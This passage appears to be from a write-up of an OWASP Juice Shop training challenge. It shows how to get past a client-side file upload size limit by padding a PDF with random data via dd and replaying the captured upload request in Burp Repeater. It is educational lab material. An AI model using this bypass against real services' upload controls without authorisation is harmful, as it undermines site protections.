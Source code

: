 ```
This restriction is client-side as no requests containing information about the file or the upload of the file itself are observed in the local proxy.

First, determine the normal flow of things by uploading a file that is under 100K. I'll use a [PDF sample file](https://www.w3.org/WAI/ER/tests/xhtml/testfiles/resources/pdf/dummy.pdf) I found online.

```{% raw %}
POST /file-upload HTTP/1.1
Host: juice.shop:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://juice.shop:3000/
Authorization: [...]
X-User-Email: a@a.a
Content-Length: 13484
Content-Type: multipart/form-data; boundary=---------------------------280159537844478784409472582
Cookie: [...]
Connection: close

-----------------------------280159537844478784409472582
Content-Disposition: form-data; name="file"; filename="dummy.pdf"
Content-Type: application/pdf

<file contents here>

-----------------------------280159537844478784409472582--
{% endraw %}```

To make a 100K PDF file, I appended 100K or so of random garbage to the end of my small dummy file using `dd`.

```
root@kali ~/JuiceShop# dd if=/dev/urandom of=chunk.dat bs=100K count=1
1+0 records in
1+0 records out
102400 bytes (102 kB, 100 KiB) copied, 0.000758674 s, 135 MB/s
root@kali ~/JuiceShop# ls -alh chunk.dat 
-rw-r--r-- 1 root root 100K Aug  7 11:52 chunk.dat
root@kali ~/JuiceShop# cat dummy.pdf chunk.dat > dummy-chunk.pdf
root@kali ~/JuiceShop# ls -alh dummy-chunk.pdf 
-rw-r--r-- 1 root root 113K Aug  7 11:52 dummy-chunk.pdf
```

Interestingly, the larger dummy file containing the random data opens normally and has a proper thumbnail in the Kali file explorer.

![large](/img/owasp-juice-shop-v7.3.0/juice063.png)

Sending the known-good file upload request over to Burp Repeater, delete the contents of the small file and paste in the larger file using the 'Paste from file' menu item.

![large](/img/owasp-juice-shop-v7.3.0/juice061.png)

Cool.

![large](/img/owasp-juice-shop-v7.3.0/juice062.png)

Finding and disabling or tampering with the client-side code responsible for this check is another potential solution here.

```